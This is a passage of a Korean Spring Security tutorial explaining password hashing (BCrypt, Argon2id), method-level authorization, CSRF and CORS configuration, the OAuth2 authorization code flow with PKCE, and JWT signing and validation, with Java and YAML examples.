BCrypt의 strength(cost factor)는 2^strength번의 반복 연산을 수행한다. strength가 1 증가하면 연산 시간이 2배가 된다.

```java
// 서버 성능에 맞는 strength 찾기
public static int findOptimalStrength(long targetMillis) {
    BCryptPasswordEncoder encoder;
    int strength = 4;

    while (strength <= 31) {
        encoder = new BCryptPasswordEncoder(strength);
        long start = System.currentTimeMillis();
        encoder.encode("benchmark_password");
        long elapsed = System.currentTimeMillis() - start;

        if (elapsed >= targetMillis) {
            return strength;
        }
        strength++;
    }
    return 12; // 기본값
}
// 권장: 서버에서 약 100~300ms 걸리는 strength 선택
// 너무 짧으면 brute force 위험, 너무 길면 로그인 API 타임아웃 위험
```

### Argon2id -- BCrypt보다 강력한 대안

Argon2id는 2015 Password Hashing Competition 우승자다. **Argon2id를 BCrypt보다 권장하는 이유:** BCrypt는 CPU 기반 연산이라 GPU로 병렬화해 공격 속도를 높일 수 있다. Argon2id는 메모리-하드(memory-hard) 알고리즘으로 대용량 메모리를 요구해 GPU 병렬화 이점을 크게 제한한다. OWASP는 현재 Argon2id를 1순위 권장 알고리즘으로 지정한다.

| 항목 | BCrypt | Argon2id |
|------|--------|----------|
| 메모리 하드 | 아니오 | 예 (GPU 공격 저항) |
| 병렬화 저항 | 아니오 | 예 |
| Cost 조정 | 반복 횟수만 | 시간+메모리+병렬도 |
| 최대 입력 길이 | 72바이트 | 제한 없음 |
| Spring 지원 | 기본 제공 | Argon2PasswordEncoder |

72바이트 제한은 BCrypt의 알려진 약점이다. 73자 이상 비밀번호는 72자까지만 검증되므로 매우 긴 비밀번호를 허용한다면 SHA-256으로 먼저 해시한 후 BCrypt를 적용하는 방식을 쓰기도 한다.

```java
// Argon2id 파라미터 (OWASP 권장)
// saltLength: 16바이트, hashLength: 32바이트
// parallelism: 1, memory: 65536KB(64MB), iterations: 3
@Bean
public PasswordEncoder passwordEncoder() {
    return new Argon2PasswordEncoder(16, 32, 1, 65536, 3);
}
```

### DelegatingPasswordEncoder -- 무중단 알고리즘 마이그레이션

레거시 시스템에는 MD5, SHA-1, BCrypt로 저장된 비밀번호가 혼재할 수 있다. 한 번에 모든 비밀번호를 변환하려면 사용자가 모두 비밀번호를 재입력해야 한다. `DelegatingPasswordEncoder`는 기존 비밀번호를 그대로 사용하면서 점진적으로 새 알고리즘으로 마이그레이션한다.

```java
@Bean
public PasswordEncoder passwordEncoder() {
    // 기본 인코더: argon2 (새로 저장될 비밀번호에 사용)
    Map<String, PasswordEncoder> encoders = new HashMap<>();
    encoders.put("bcrypt", new BCryptPasswordEncoder(12));
    encoders.put("argon2", new Argon2PasswordEncoder(16, 32, 1, 65536, 3));
    encoders.put("noop", NoOpPasswordEncoder.getInstance()); // 평문 (개발 테스트 전용)
    encoders.put("sha256", new StandardPasswordEncoder()); // 구버전 레거시

    // 저장 형식: {argon2}$argon2id$v=19$...
    // 앞의 접두사로 어떤 인코더로 검증할지 결정
    return new DelegatingPasswordEncoder("argon2", encoders);
}

// DB에 저장되는 형태:
// {bcrypt}$2a$12$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy
// {argon2}$argon2id$v=19$m=65536,t=3,p=1$...
// → 접두사를 보고 어떤 알고리즘으로 검증할지 자동 선택
// → 레거시 {bcrypt} 비밀번호도 정상 로그인 가능
// → upgradeEncoding 설정 시 로그인 성공 후 최신 알고리즘으로 자동 재저장
```

---

## 7. 인가(Authorization): Role vs Authority, @PreAuthorize, 메서드 보안 심층

### Role vs Authority

Spring Security에서 이 둘은 같은 `GrantedAuthority`지만 관례적 차이가 있다.

- **Role**: `ROLE_` 접두사 사용. `hasRole("ADMIN")`은 내부적으로 `"ROLE_ADMIN"` Authority를 확인
- **Authority**: 세분화된 권한. `hasAuthority("USER_READ")`, `hasAuthority("ORDER_WRITE")`

```java
public enum UserRole {
    ADMIN, USER, MANAGER;

    public Set<Permission> getPermissions() {
        return switch (this) {
            case ADMIN -> Set.of(Permission.values());  // 모든 권한
            case MANAGER -> Set.of(
                Permission.USER_READ,
                Permission.ORDER_READ,
                Permission.ORDER_WRITE
            );
            case USER -> Set.of(
                Permission.USER_READ,
                Permission.ORDER_READ
            );
        };
    }
}

public enum Permission {
    USER_READ("user:read"),
    USER_WRITE("user:write"),
    ORDER_READ("order:read"),
    ORDER_WRITE("order:write"),
    ADMIN_READ("admin:read"),
    ADMIN_WRITE("admin:write");

    private final String value;
}
```

```java
// UserDetails에서 Permission을 Authority로 반환
@Override
public Collection<? extends GrantedAuthority> getAuthorities() {
    Set<GrantedAuthority> authorities = new HashSet<>();

    // Role 자체도 Authority로 추가 (hasRole 사용을 위해)
    authorities.add(new SimpleGrantedAuthority("ROLE_" + user.getRole().name()));

    // 세분화된 Permission 추가
    user.getRole().getPermissions().stream()
        .map(p -> new SimpleGrantedAuthority(p.getValue()))
        .forEach(authorities::add);

    return authorities;
}
```

### @PreAuthorize가 AOP 프록시를 통해 동작하는 원리

`@EnableMethodSecurity`를 선언하면 Spring이 `@PreAuthorize` 어노테이션이 붙은 빈을 프록시로 감싼다. 메서드 호출이 프록시를 통과하면서 SpEL 표현식을 평가하고, 실패하면 `AccessDeniedException`을 던진다.

**내부 호출 시 @PreAuthorize가 무시되는 이유:** 같은 클래스 내에서 `this.method()`로 호출하면 프록시를 통하지 않고 실제 객체의 메서드를 직접 호출한다. 프록시가 개입하지 않으므로 권한 체크가 실행되지 않는다. 이것은 `@Transactional`과 동일한 프록시 한계다.

```java
@Configuration
@EnableMethodSecurity(
    prePostEnabled = true,   // @PreAuthorize, @PostAuthorize, @PreFilter, @PostFilter
    securedEnabled = true,   // @Secured
    jsr250Enabled = true     // @RolesAllowed
)
public class MethodSecurityConfig {}
```

### @PreAuthorize SpEL 표현식

`@PreAuthorize`는 메서드 실행 전에 인가를 확인한다. SpEL(Spring Expression Language)로 복잡한 조건을 표현할 수 있다.

```java
@Service
public class OrderService {

    // 단순 Role 확인
    @PreAuthorize("hasRole('ADMIN')")
    public void deleteAllOrders() {
        orderRepository.deleteAll();
    }

    // Authority 확인
    @PreAuthorize("hasAuthority('order:write')")
    public Order createOrder(OrderRequest request) {
        return orderRepository.save(Order.from(request));
    }

    // 여러 조건 조합
    @PreAuthorize("hasRole('MANAGER') or hasAuthority('order:write')")
    public Order updateOrder(Long orderId, OrderRequest request) {
        Order order = orderRepository.findById(orderId).orElseThrow();
        order.update(request);
        return orderRepository.save(order);
    }

    // 현재 사용자가 주문 소유자인지 확인
    @PreAuthorize("@orderSecurityService.isOwner(#orderId, authentication.name)")
    public void cancelOrder(Long orderId) {
        Order order = orderRepository.findById(orderId).orElseThrow();
        order.cancel();
    }

    // 메서드 파라미터와 Authentication 조합
    @PreAuthorize("hasRole('ADMIN') or #userId == authentication.principal.id")
    public UserProfile getUserProfile(Long userId) {
        return userService.getProfile(userId);
    }

    // DB 조회 후 반환 객체를 검증 — 반환 후 검사이므로 DB 쿼리는 실행됨
    // IDOR(Insecure Direct Object Reference) 방어에 유용
    @PostAuthorize("returnObject.ownerEmail == authentication.name")
    public Order getOrder(Long orderId) {
        return orderRepository.findById(orderId).orElseThrow();
    }

    // 컬렉션 파라미터 필터링 — 현재 사용자 소유 주문만 처리 허용
    @PreFilter("filterObject.memberId == authentication.principal.id")
    public void bulkUpdateOrders(List<Order> orders) {
        orderRepository.saveAll(orders);
    }

    // 반환 컬렉션 필터링 — 현재 사용자 소유 주문만 반환
    @PostFilter("filterObject.memberId == authentication.principal.id or hasRole('ADMIN')")
    public List<Order> getAllOrders() {
        return orderRepository.findAll();
    }
}

// SpEL에서 참조되는 Bean
@Service("orderSecurityService")
public class OrderSecurityService {

    public boolean isOwner(Long orderId, String username) {
        return orderRepository.findById(orderId)
            .map(order -> order.getOwnerEmail().equals(username))
            .orElse(false);
    }
}
```

### 커스텀 PermissionEvaluator -- 도메인 객체 레벨 권한 체크

```java
// hasPermission() SpEL 함수를 커스터마이징
@Component
public class OrderPermissionEvaluator implements PermissionEvaluator {

    private final OrderRepository orderRepository;

    // hasPermission(targetDomainObject, permission) 형태
    @Override
    public boolean hasPermission(Authentication authentication,
                                  Object targetDomainObject,
                                  Object permission) {
        if (targetDomainObject instanceof Order order) {
            CustomUserDetails user = (CustomUserDetails) authentication.getPrincipal();
            if ("READ".equals(permission)) {
                return order.getMemberId().equals(user.getId())
                    || hasRole(authentication, "ADMIN");
            }
        }
        return false;
    }

    // hasPermission(targetId, targetType, permission) 형태
    @Override
    public boolean hasPermission(Authentication authentication,
                                  Serializable targetId,
                                  String targetType,
                                  Object permission) {
        if ("Order".equals(targetType)) {
            Order order = orderRepository.findById((Long) targetId).orElseThrow();
            return hasPermission(authentication, order, permission);
        }
        return false;
    }

    private boolean hasRole(Authentication auth, String role) {
        return auth.getAuthorities().stream()
            .anyMatch(a -> a.getAuthority().equals("ROLE_" + role));
    }
}

// MethodSecurityExpressionHandler에 등록
@Bean
public MethodSecurityExpressionHandler methodSecurityExpressionHandler(
        OrderPermissionEvaluator evaluator) {
    DefaultMethodSecurityExpressionHandler handler =
        new DefaultMethodSecurityExpressionHandler();
    handler.setPermissionEvaluator(evaluator);
    return handler;
}

// 사용 예시
@PreAuthorize("hasPermission(#orderId, 'Order', 'READ')")
public Order getOrder(Long orderId) { ... }
```

### AccessDecisionManager 투표 메커니즘 (구 방식)

Spring Security 5.5 이전에는 `AccessDecisionManager`가 여러 `AccessDecisionVoter`의 투표로 인가를 결정했다. 투표 결과는 세 가지: `ACCESS_GRANTED(1)`, `ACCESS_ABSTAIN(0)`, `ACCESS_DENIED(-1)`.

```java
// 투표 전략
// 1. AffirmativeBased (기본): 하나라도 GRANTED면 허용
// 2. ConsensusBased: GRANTED가 DENIED보다 많으면 허용
// 3. UnanimousBased: 모두 GRANTED여야 허용

// 커스텀 Voter 예시
public class TimeBasedAccessVoter implements AccessDecisionVoter<Object> {

    @Override
    public int vote(Authentication authentication, Object object,
                    Collection<ConfigAttribute> attributes) {

        // 업무 시간(09:00 ~ 18:00)에만 접근 허용
        int hour = LocalTime.now().getHour();
        if (hour >= 9 && hour < 18) {
            return ACCESS_GRANTED;
        }
        return ACCESS_DENIED;
    }

    @Override
    public boolean supports(ConfigAttribute attribute) {
        return true;
    }

    @Override
    public boolean supports(Class<?> clazz) {
        return true;
    }
}
```

신 방식은 `AuthorizationManager`로 단순화됐다:

```java
// 커스텀 AuthorizationManager
@Component
public class IpRangeAuthorizationManager
        implements AuthorizationManager<RequestAuthorizationContext> {

    private final List<String> allowedIpRanges = List.of("192.168.1.", "10.0.0.");

    @Override
    public AuthorizationDecision check(Supplier<Authentication> authentication,
                                        RequestAuthorizationContext context) {
        String remoteAddr = context.getRequest().getRemoteAddr();
        boolean allowed = allowedIpRanges.stream()
            .anyMatch(remoteAddr::startsWith);
        return new AuthorizationDecision(allowed);
    }
}

// 등록
http.authorizeHttpRequests(auth -> auth
    .requestMatchers("/internal/**").access(ipRangeAuthorizationManager)
);
```

---

## 8. CSRF 보호: SynchronizerToken vs CookieToHeader, 언제 비활성화하는가

### CSRF 공격이 가능한 근본 이유

브라우저는 같은 도메인의 쿠키를 자동으로 요청에 포함시킨다. `bank.com`에 로그인해서 세션 쿠키가 있으면, `evil.com`에서 JavaScript나 자동 폼 제출로 `bank.com/transfer`에 POST 요청을 보내도 브라우저가 세션 쿠키를 자동 첨부한다. 서버는 유효한 세션으로 판단한다.

핵심: **브라우저가 쿠키를 자동으로 첨부**하는 동작이 문제다.

### SynchronizerToken Pattern (서버 측 저장)

```java
// Spring Security 기본 CSRF 구현
// CsrfFilter가 처리

// 서버: 세션에 토큰 저장, 응답에 포함
// 클라이언트: 폼 hidden 필드 또는 헤더로 전송
// 서버: 수신된 토큰과 세션 토큰 비교

// Thymeleaf에서 자동 포함
// <form th:action="@{/transfer}" method="post">
//   <input type="hidden" th:name="${_csrf.parameterName}" th:value="${_csrf.token}"/>
// </form>

// JavaScript에서 AJAX 요청 시
// fetch('/api/transfer', {
//   method: 'POST',
//   headers: { 'X-CSRF-TOKEN': getCsrfToken() }
// })
```

```java
@Configuration
public class CsrfConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.csrf(csrf -> csrf
            // 커스텀 저장소 (기본: HttpSessionCsrfTokenRepository)
            .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            // 특정 경로 CSRF 제외 (예: Webhook 엔드포인트)
            .ignoringRequestMatchers("/webhook/**")
        );
        return http.build();
    }
}
```

### CookieToHeader Pattern (Double Submit Cookie)

`CookieCsrfTokenRepository`가 이 패턴을 구현한다. CSRF 토큰을 쿠키에 저장하고, 클라이언트는 같은 값을 HTTP 헤더로도 전송한다. 서버는 쿠키 값과 헤더 값이 일치하는지 확인한다.

공격자가 `evil.com`에서 쿠키를 읽을 수 없기 때문에(Same-Origin Policy로 다른 도메인 쿠키 접근 불가) 헤더에 올바른 값을 넣을 수 없다.

```java
// SPA(React, Vue)와 연동 시 권장
http.csrf(csrf -> csrf
    .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
    // HttpOnly=false여야 JavaScript에서 쿠키 읽을 수 있음
);

// React에서:
// const csrfToken = document.cookie
//   .split('; ')
//   .find(row => row.startsWith('XSRF-TOKEN='))
//   ?.split('=')[1];
//
// axios.defaults.headers.common['X-XSRF-TOKEN'] = csrfToken;
```

### 언제 CSRF를 비활성화해도 안전한가

CSRF 공격의 전제: 브라우저가 쿠키를 자동으로 포함. 이 전제가 없으면 공격 불가.

**JWT + Authorization 헤더 방식**: 브라우저는 `Authorization: Bearer xxx` 헤더를 자동으로 붙이지 않는다. JavaScript가 명시적으로 설정해야 한다. `evil.com`의 JavaScript는 Same-Origin Policy로 `bank.com`의 JWT를 읽을 수 없다. 따라서 CSRF 불가 → `csrf.disable()` 안전.

**API-only 서비스**: 모바일 앱, 외부 시스템 등이 클라이언트인 경우 브라우저 쿠키 자동 첨부 메커니즘이 없다 → CSRF 불가.

```java
// JWT 기반 REST API — CSRF 비활성화 올바른 패턴
http
    .csrf(AbstractHttpConfigurer::disable)
    .sessionManagement(s -> s
        .sessionCreationPolicy(SessionCreationPolicy.STATELESS))
    // 세션도 없고 CSRF도 없음 — JWT로 모든 요청 검증
    ;
```

---

## 9. CORS: Preflight 메커니즘과 Spring Security 통합

### 왜 브라우저가 Same-Origin을 강제하는가

Same-Origin Policy(SOP)는 브라우저의 보안 모델이다. `http://a.com`의 JavaScript가 `http://b.com`의 응답을 읽지 못하도록 막는다. 이것이 없으면 로그인된 상태로 `evil.com`에 방문만 해도 `bank.com`의 계좌 정보를 JavaScript로 읽어갈 수 있다.

그런데 현실에서는 `http://frontend.com`이 `http://api.com`을 호출해야 한다. CORS는 서버가 "이 출처는 예외로 허용한다"고 브라우저에 알리는 메커니즘이다.

### Preflight OPTIONS 요청의 필요성

브라우저는 사이드 이펙트를 유발할 수 있는 요청(POST, PUT, DELETE 또는 커스텀 헤더 포함)을 실제로 보내기 전에 OPTIONS 메서드로 **사전 질의**한다. 서버가 허용하면 실제 요청을 보낸다.

단순 요청 조건: GET/POST/HEAD + 단순 헤더 + `Content-Type`이 `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain` 중 하나. REST API에서 `Content-Type: application/json`을 쓰면 이미 Preflight가 발생한다.

```
-- Preflight 요청 --
OPTIONS /api/orders HTTP/1.1
Host: api.myapp.com
Origin: https://frontend.myapp.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Content-Type, Authorization

-- Preflight 응답 --
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://frontend.myapp.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Max-Age: 3600        ← 이 시간(초) 동안 Preflight 캐시
```

`Access-Control-Max-Age: 3600`이 중요한 이유: 캐시가 없으면 API 요청마다 Preflight `OPTIONS` 요청이 먼저 발생해 네트워크 왕복 횟수가 2배가 된다. 3600이면 1시간 동안 캐시를 사용해 Preflight를 건너뛴다.

Spring Security가 Preflight 요청을 먼저 처리해야 한다. CORS 설정이 Security 필터보다 나중에 처리되면 OPTIONS 요청이 인증 필터에서 막힌다.

### 왜 allowedOrigins("*")와 allowCredentials(true)를 함께 쓸 수 없는가

W3C CORS 스펙이 이 조합을 명시적으로 금지한다. 이유: `*`를 허용하면 모든 사이트가 자격증명(쿠키, Authorization 헤더)을 포함한 요청을 보낼 수 있게 된다. 이는 사실상 CSRF 공격을 CORS 레벨에서 허용하는 것과 같다. 브라우저 스펙이 이를 거부하며, Spring Security도 설정 시점에 `IllegalArgumentException`을 던진다.

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // CORS 설정을 Security 필터 체인에서 먼저 처리
            .cors(cors -> cors.configurationSource(corsConfigurationSource()))
            .csrf(AbstractHttpConfigurer::disable)
            // ...
            ;
        return http.build();
    }

    @Bean
    public CorsConfigurationSource corsConfigurationSource() {
        CorsConfiguration config = new CorsConfiguration();

        // 와일드카드 대신 허용할 출처 패턴을 명시
        config.setAllowedOriginPatterns(List.of(
            "http://localhost:[*]",         // 로컬 개발 모든 포트
            "https://*.myapp.com"           // 운영 서브도메인 전체
        ));

        config.setAllowedMethods(List.of(
            "GET", "POST", "PUT", "DELETE", "PATCH", "OPTIONS"
        ));

        config.setAllowedHeaders(List.of(
            "Authorization",
            "Content-Type",
            "X-Requested-With",
            "Accept",
            "X-Request-ID"
        ));

        config.setExposedHeaders(List.of(
            "X-Auth-Token",  // 클라이언트가 읽어야 할 커스텀 응답 헤더
            "X-Total-Count"
        ));

        config.setAllowCredentials(true);   // 쿠키 포함 허용
        config.setMaxAge(3600L);            // Preflight 캐시 1시간

        UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        source.registerCorsConfiguration("/**", config);
        return source;
    }
}
```

**CORS 설정을 WebMvcConfigurer와 Security에 중복 설정하면 안 되는 이유:** `ExceptionTranslationFilter`가 403을 반환할 때 CORS 헤더가 붙지 않으면 브라우저가 CORS 오류로 인식한다. Security의 `cors()` 설정을 통해야 Security 필터 체인 내에서도 CORS 헤더가 올바르게 추가된다.

---

## 10. OAuth2 Authorization Code Flow -- 단계별 WHY

### 전체 흐름도



### 각 단계의 WHY

**단계 1-2: 왜 직접 로그인 폼을 우리 서버에 두지 않는가?**

카카오 비밀번호는 카카오만 알아야 한다. 우리 서버가 직접 카카오 비밀번호를 받으면 피싱 경로가 된다. Authorization Server로 리다이렉트하면 사용자는 카카오 도메인에서 카카오 폼으로 로그인한다. 우리 서버는 비밀번호를 볼 수 없다.

**단계 2에서 `state` 파라미터가 CSRF를 막는 원리:**

리다이렉트 URL에 `state=랜덤값`을 포함시키고, 세션에도 저장한다. Authorization Server가 콜백 URL로 돌아올 때 같은 `state`를 보내준다. 서버가 세션의 `state`와 콜백의 `state`를 비교한다. 공격자가 임의로 콜백을 유발해도 `state`가 맞지 않아 요청이 거부된다.

```java
// Spring Security가 자동으로 처리하지만, 내부 동작 이해를 위한 수동 구현 예시
@GetMapping("/oauth2/authorize/kakao")
public void authorize(HttpSession session, HttpServletResponse response) throws IOException {
    String state = generateSecureRandom(); // UUID 또는 SecureRandom
    session.setAttribute("oauth2_state", state);

    String redirectUrl = UriComponentsBuilder
        .fromUriString("https://kauth.kakao.com/oauth/authorize")
        .queryParam("response_type", "code")
        .queryParam("client_id", clientId)
        .queryParam("redirect_uri", redirectUri)
        .queryParam("state", state) // CSRF 방지
        .build().toUriString();

    response.sendRedirect(redirectUrl);
}

@GetMapping("/login/oauth2/code/kakao")
public ResponseEntity<?> callback(
        @RequestParam String code,
        @RequestParam String state,
        HttpSession session) {

    // state 검증 — 없으면 CSRF 공격 가능성
    String savedState = (String) session.getAttribute("oauth2_state");
    if (!state.equals(savedState)) {
        throw new OAuth2AuthenticationException("state 불일치 — CSRF 공격 의심");
    }
    session.removeAttribute("oauth2_state");

    // code는 단 한 번만 사용 가능, 유효 시간 수 분 이내
    // 서버 간 백채널로 토큰 교환 → 토큰이 URL에 노출되지 않음
    TokenResponse tokenResponse = exchangeCodeForToken(code);
    // ...
}
```

**단계 3-4: Authorization Code가 URL에 노출되는데 왜 안전한가?**

Authorization Code는 수 분(보통 5분) 내 만료되는 일회용 코드다. 코드만으로는 아무것도 할 수 없고, `client_secret`과 함께 토큰 엔드포인트에 제출해야만 Access Token을 얻을 수 있다. 브라우저 히스토리에 코드가 남아도, 공격자가 `client_secret` 없이는 코드를 교환할 수 없다.

**단계 5-6: 왜 서버에서 서버로(백채널) 토큰을 교환하는가?**

이 단계에서 `client_secret`이 포함된다. `client_secret`은 브라우저에 노출되면 안 된다. 서버 간 HTTPS 통신으로 교환하기 때문에 Access Token과 `client_secret` 모두 외부에 노출되지 않는다.

### PKCE -- Public Client를 위한 code_verifier 메커니즘

모바일 앱과 SPA(Single Page Application)는 `client_secret`을 안전하게 보관할 수 없다. 앱 번들을 디컴파일하거나 소스코드를 보면 `client_secret`이 노출된다. PKCE(Proof Key for Code Exchange)는 이 문제를 `client_secret` 없이 해결한다.

```java
// PKCE 동작 원리 (Spring Security가 자동 처리하지만 이해용 구현)
public class PkceHelper {

    public static String generateCodeVerifier() {
        // 43~128자 랜덤 문자열 — 클라이언트만 알고 있음
        byte[] bytes = new byte[32];
        new SecureRandom().nextBytes(bytes);
        return Base64.getUrlEncoder().withoutPadding().encodeToString(bytes);
    }

    public static String generateCodeChallenge(String verifier) throws NoSuchAlgorithmException {
        // S256 방식: SHA-256(verifier)를 Base64url 인코딩
        // plain 방식은 verifier를 그대로 보내지만 보안상 S256 권장
        MessageDigest digest = MessageDigest.getInstance("SHA-256");
        byte[] hash = digest.digest(verifier.getBytes(StandardCharsets.US_ASCII));
        return Base64.getUrlEncoder().withoutPadding().encodeToString(hash);
    }
}

// 인가 요청 시: code_challenge만 Authorization Server에 전달
// 코드 교환 시: code_verifier를 함께 전달 → AS가 SHA-256(verifier) == challenge 검증
// 공격자가 code를 가로채도 verifier가 없으면 토큰 교환 불가
```

PKCE가 Authorization Code Injection 공격을 막는 원리: 공격자가 다른 사용자의 Authorization Code를 탈취해 자신의 클라이언트에 삽입하려 해도, 그 code에 대응하는 `code_verifier`를 모른다. verifier는 최초 인가 요청을 시작한 클라이언트만 알기 때문이다.

### Spring Security OAuth2 Client 설정

```yaml
spring:
  security:
    oauth2:
      client:
        registration:
          kakao:
            client-id: ${KAKAO_CLIENT_ID}
            client-secret: ${KAKAO_CLIENT_SECRET}
            authorization-grant-type: authorization_code
            redirect-uri: "{baseUrl}/login/oauth2/code/{registrationId}"
            scope: profile_nickname, account_email
          google:
            client-id: ${GOOGLE_CLIENT_ID}
            client-secret: ${GOOGLE_CLIENT_SECRET}
            scope: openid, profile, email
        provider:
          kakao:
            authorization-uri: https://kauth.kakao.com/oauth/authorize
            token-uri: https://kauth.kakao.com/oauth/token
            user-info-uri: https://kapi.kakao.com/v2/user/me
            user-name-attribute: id
```

```java
@Service
@RequiredArgsConstructor
public class CustomOAuth2UserService extends DefaultOAuth2UserService {

    private final MemberRepository memberRepository;

    @Override
    public OAuth2User loadUser(OAuth2UserRequest userRequest) throws OAuth2AuthenticationException {
        OAuth2User oAuth2User = super.loadUser(userRequest);

        String registrationId = userRequest.getClientRegistration().getRegistrationId();
        // 카카오와 구글의 응답 JSON 구조가 다름 — Factory 패턴으로 통일
        OAuth2UserInfo userInfo = OAuth2UserInfoFactory
            .getOAuth2UserInfo(registrationId, oAuth2User.getAttributes());

        // 이미 가입된 경우 업데이트, 신규이면 저장
        Member member = memberRepository.findByProviderAndProviderId(
                userInfo.getProvider(), userInfo.getProviderId())
            .map(existing -> existing.updateProfile(userInfo.getName(), userInfo.getImageUrl()))
            .orElseGet(() -> Member.ofOAuth2(userInfo));

        memberRepository.save(member);

        return new DefaultOAuth2User(
            Collections.singleton(new SimpleGrantedAuthority("ROLE_USER")),
            oAuth2User.getAttributes(),
            userRequest.getClientRegistration()
                .getProviderDetails().getUserInfoEndpoint().getUserNameAttributeName()
        );
    }
}
```

---

## 11. JWT 내부 구조와 Stateless 인증

### header.payload.signature 구조

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImtleS0xIn0   ← Header
.eyJzdWIiOiJ1c2VyMTIzIiwiaXNzIjoiYXV0aC5teWFwcC5jb20i...   ← Payload
.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c               ← Signature
```

각 파트는 Base64url 인코딩이다. **암호화가 아니다.** 누구나 디코딩해 내용을 읽을 수 있다. Signature의 역할은 위변조 감지다. Payload를 수정하면 Signature 검증에서 즉시 실패한다.

Header 예시:
```json
{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "key-1"
}
```

Payload 예시:
```json
{
  "sub": "user123",
  "iss": "https://auth.myapp.com",
  "aud": ["my-resource-server"],
  "exp": 1715000000,
  "iat": 1714996400,
  "scope": "read:orders write:orders",
  "roles": ["ROLE_USER"]
}
```

### RS256 vs HS256 -- 분산 시스템에서 RS256을 써야 하는 이유



**HS256 (HMAC-SHA256):**
- 서명과 검증에 동일한 비밀키 사용
- Resource Server가 검증하려면 비밀키를 알아야 한다
- 비밀키를 여러 서버에 배포해야 한다 → 비밀키 유출 경로가 늘어난다
- 하나의 Resource Server가 침해당하면 비밀키로 임의의 JWT를 위조할 수 있다

**RS256 (RSA-SHA256):**
- 개인키(private key)로 서명, 공개키(public key)로 검증
- 개인키는 Authorization Server 한 곳에만 있다
- Resource Server는 공개키만 있으면 검증 가능 -- 공개키가 유출돼도 위조 불가
- 마이크로서비스에서 각 서비스가 Auth Server에 의존하지 않고 독립적으로 검증

```java
// RS256 키 쌍 생성 및 사용
@Bean
public JwtEncoder jwtEncoder(RSAKey rsaKey) throws JOSEException {
    // 개인키는 Authorization Server만 보유
    JWKSet jwkSet = new JWKSet(rsaKey);
    JWKSource<SecurityContext> jwkSource = new ImmutableJWKSet<>(jwkSet);
    return new NimbusJwtEncoder(jwkSource);
}

@Bean
public JwtDecoder jwtDecoder(RSAKey rsaKey) throws JOSEException {
    // 공개키만 있으면 검증 가능
    return NimbusJwtDecoder.withPublicKey(rsaKey.toRSAPublicKey()).build();
}

// Authorization Server에서 JWT 발급
@Service
@RequiredArgsConstructor
public class TokenService {

    private final JwtEncoder jwtEncoder;

    public String issueAccessToken(String userId, List<String> roles) {
        Instant now = Instant.now();

        JwtClaimsSet claims = JwtClaimsSet.builder()
            .issuer("https://auth.myapp.com")
            .audience(List.of("my-resource-server"))
            .subject(userId)
            .issuedAt(now)
            .expiresAt(now.plus(15, ChronoUnit.MINUTES)) // 짧은 유효 기간
            .claim("roles", roles)
            .claim("scope", "read:orders write:orders")
            .build();

        JwsHeader header = JwsHeader.with(SignatureAlgorithm.RS256)
            .keyId("key-1") // kid: JWK Set에서 키 찾을 때 사용
            .build();

        return jwtEncoder.encode(JwtEncoderParameters.from(header, claims)).getTokenValue();
    }
}
```

### JWT 인증 필터 구현

```java
@Component
@RequiredArgsConstructor
public class JwtAuthenticationFilter extends OncePerRequestFilter {

    private final JwtTokenProvider jwtTokenProvider;
    private final UserDetailsService userDetailsService;

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                     HttpServletResponse response,
                                     FilterChain filterChain)
            throws ServletException, IOException {

        String token = extractToken(request);

        if (token != null) {
            try {
                Claims claims = jwtTokenProvider.validateAndExtract(token);
                String username = claims.getSubject();

                // SecurityContext에 인증 정보가 없을 때만 처리
                if (username != null &&
                        SecurityContextHolder.getContext().getAuthentication() == null) {

                    UserDetails userDetails =
                        userDetailsService.loadUserByUsername(username);

                    UsernamePasswordAuthenticationToken auth =
                        new UsernamePasswordAuthenticationToken(
                            userDetails,
                            null,
                            userDetails.getAuthorities()
                        );
                    auth.setDetails(
                        new WebAuthenticationDetailsSource().buildDetails(request));

                    SecurityContextHolder.getContext().setAuthentication(auth);
                }
            } catch (TokenExpiredException e) {
                response.setStatus(HttpServletResponse.SC_UNAUTHORIZED);
                response.setContentType(MediaType.APPLICATION_JSON_VALUE);
                response.getWriter().write("{\"error\":\"TOKEN_EXPIRED\"}");
                return;
            } catch (InvalidTokenException e) {
                response.setStatus(HttpServletResponse.SC_UNAUTHORIZED);
                response.getWriter().write("{\"error\":\"INVALID_TOKEN\"}");
                return;
            }
        }

        filterChain.doFilter(request, response);
    }

    private String extractToken(HttpServletRequest request) {
        String bearerToken = request.getHeader("Authorization");
        if (StringUtils.hasText(bearerToken) && bearerToken.startsWith("Bearer ")) {
            return bearerToken.substring(7);
        }
        return null;
    }

    @Override
    protected boolean shouldNotFilter(HttpServletRequest request) {
        // 인증 불필요 경로는 필터 건너뜀
        String path = request.getServletPath();
        return path.startsWith("/api/auth/") || path.startsWith("/api/public/");
    }
}
```

### JwtTokenProvider 유틸리티

```java
@Component
public class JwtTokenProvider {

    @Value("${jwt.secret}")
    private String secret;

    @Value("${jwt.access-token-expiration}")
    private long accessTokenExpiration;  // 15분 권장

    @Value("${jwt.refresh-token-expiration}")
    private long refreshTokenExpiration;  // 7일

    private SecretKey getSigningKey() {
        byte[] keyBytes = Decoders.BASE64.decode(secret);
        return Keys.hmacShaKeyFor(keyBytes);
    }

    public String generateAccessToken(UserDetails userDetails) {
        Map<String, Object> claims = new HashMap<>();
        claims.put("roles", userDetails.getAuthorities().stream()
            .map(GrantedAuthority::getAuthority)
            .collect(Collectors.toList()));

        return Jwts.builder()
            .claims(claims)
            .subject(userDetails.getUsername())
            .issuedAt(new Date())
            .expiration(new Date(System.currentTimeMillis() + accessTokenExpiration))
            .signWith(getSigningKey())
